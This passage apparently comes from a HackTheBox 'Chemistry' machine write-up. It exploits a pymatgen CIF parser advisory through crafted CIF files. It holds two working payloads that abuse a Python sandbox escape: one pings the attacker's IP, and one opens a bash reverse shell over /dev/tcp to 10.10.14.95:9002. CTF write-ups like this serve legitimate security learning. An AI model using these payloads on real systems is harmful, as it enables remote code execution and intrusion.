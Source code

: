 
I will also upload this file to see how we can interact with it ourselves:
![Pasted image 20250103151838.png](/images/hackthebox/machines/chemistry/pasted-image-20250103151838.png)

So the file gets parsed by the website. neat! now I just have to find a way to abuse this functionality.

A quick google search lands me on the following potential vulnerability:
![Pasted image 20241230155912.png](/images/hackthebox/machines/chemistry/pasted-image-20241230155912.png)

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Cool, there might be a vulnerability in the parsing function.
let's test this. The POC in the github repo shows us a POC where we create a file on the target system. That will not work for me. I'll try to perform a PING to my own machine and see if this gets executed.

```sql
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 4 10.10.14.95");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![Pasted image 20250103152358.png](/images/hackthebox/machines/chemistry/pasted-image-20250103152358.png)

this worked.
Now it's time to weaponize the exploit by implementing a real payload, a reverse shell!

# Initial Foothold

```sql
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.95/9002 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
